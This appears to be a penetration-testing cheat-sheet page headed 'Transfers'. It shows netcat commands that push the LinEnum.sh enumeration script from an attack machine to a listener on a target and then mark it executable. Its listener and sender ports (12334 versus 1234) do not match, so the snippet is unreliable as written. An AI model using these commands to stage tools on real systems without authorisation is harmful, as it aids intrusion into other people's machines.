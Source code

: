 ```yaml
---
layout: default
title: Transfers
nav_order: 1
has_children: true
---
```


This is the Transfers section

## Netcat File Transfer

```bash
# Target Machine (receiving file)
nc -l -p 12334 > LinEnum.sh

# Attack Machine (sending file)
nc -w 3 <target_ip> 1234 < LinEnum.sh

# Set the executable bit
chmod +x LinEnum.sh
```
